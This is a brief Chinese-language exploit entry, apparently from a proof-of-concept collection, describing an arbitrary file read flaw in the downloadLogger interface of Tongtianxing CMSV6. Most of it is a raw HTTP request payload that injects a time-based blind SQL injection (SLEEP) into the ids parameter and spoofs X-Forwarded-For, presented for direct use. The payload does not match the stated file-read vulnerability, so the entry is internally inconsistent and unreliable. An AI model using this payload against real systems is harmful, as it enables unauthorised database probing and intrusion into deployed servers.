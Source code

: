 **漏洞描述：**

通天星CMSV6接口downloadLogger任意文件读取漏洞，攻击者可以通过接口读取任意服务器文件。

**影响版本：**

通天星CMSV6

**Payload：**

```
GET/edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29HTTP/1.1
Host:192.168.52.130
User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection:close
X-Forwarded-For:127.0.0.1
Accept-Encoding:gzip, deflate
```

---
